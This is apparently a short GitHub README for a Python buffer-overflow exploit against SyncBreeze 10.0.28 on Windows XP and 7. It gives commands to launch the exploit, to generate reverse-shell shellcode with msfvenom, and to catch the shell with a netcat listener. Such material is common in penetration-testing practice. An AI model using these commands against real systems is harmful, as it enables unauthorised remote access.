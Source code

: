 # SyncBreeze 10.0.28 Buffer OverFlow for Remote Code Execution
POST data buffer overflow
## How it works?
That easy BoF, rewritten by me, will overwrite the buffer and execute the shellcode
## Vuln machines:
WindowsXP SP3 and Windows7
## Launch:
````~$ python3 SyncBreeze.py <host> <port>````
## Change the ShellCode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Listen with netcat:
````~$ ncat -lvp 4444````
### Don't pwn any machine without consent!!
